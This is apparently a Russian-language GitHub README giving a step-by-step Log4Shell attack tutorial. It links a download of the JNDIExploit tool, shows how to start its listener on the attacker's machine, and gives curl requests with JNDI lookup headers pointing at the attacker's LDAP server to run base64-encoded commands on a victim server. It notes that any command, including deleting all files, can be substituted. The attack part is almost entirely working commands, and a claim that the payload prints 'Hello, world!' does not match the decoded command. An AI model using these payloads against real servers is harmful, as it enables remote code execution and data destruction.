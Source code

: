 # alex_programms
новая уязвимость log4shell

Скачивание эксплоита:

Переходим по ссылке:
https://bit.ly/3E4kxuk

И ждём скачивание файла(если ссылка не открылась,используйте vpn.
Это ссылка на сайт веб архив,который успел сохранить ссылку на архив старого репозитория(его удалили)

Установка эксплоита:
Переходим в папку загрузок и распаковываем архив:

unzip JNDIExploit.v1.2.zip

Далее вводим эту команду для прослушки 1389 и 8888 портов:

java -jar JNDIExploit-1.2-SNAPSHOT.jar -i LOCAL_IP -p 8888 
Где LOCAL_IP - IP-адрес атакующего.


Атака на сервер:
Итак, у нас есть уязвимый сервер и эксплоит для него. Теперь вводим эту команду:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://LOCAL_IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
Где 127.0.0.1:8080 - IP жертвы (сервера), а LOCAL_IP - IP-адрес атакующего.

Эта команда отправляет запрос на сервер для удалённого выполнения команды в виде base64. Где "dG91Y2ggL3RtcC9wd25lZAo=" - и есть команда. При расшифровке можно понять, что она делает:


Команда создаёт файл по пути /tmp с названием pwned. После её выполнения в терминале отобразится текст "Hello, world!".


Чтобы проверить, выполнена ли команда на сервере, проверяем на нём файлы:

docker exec vulnerable-app ls /tmp
Должен отобразится файл pwned.


Вместо команды, показанной в примере, можно выполнить любую другую. Например перезапуск сервера, запуск другого эксплоита, удаление всех файлов и тд. 

Предположим у нас стоит задача теперь удалить файл pwned, который мы создали. Для этого будет такая команда:

cd /tmp && rm pwned 
Чтобы её запустить на атакуемом сервере, нужно открыть какой-нибудь base64 декодер и зашифровать её:


Копируем результат и вставляем в эту команду:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://LOCAL_IP:1389/Basic/Command/Base64/Base64_code}'
Где 

127.0.0.1:8080 - IP жертвы (сервера), 

LOCAL_IP - IP-адрес атакующего, 

а Base64_code - скопированный раннее результат (сюда и нужно вставить результат).



У меня получилась такая команда:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://10.0.2.15:1389/Basic/Command/Base64/Y2QgL3RtcCAmJiBybSBwd25lZCA=}'
    
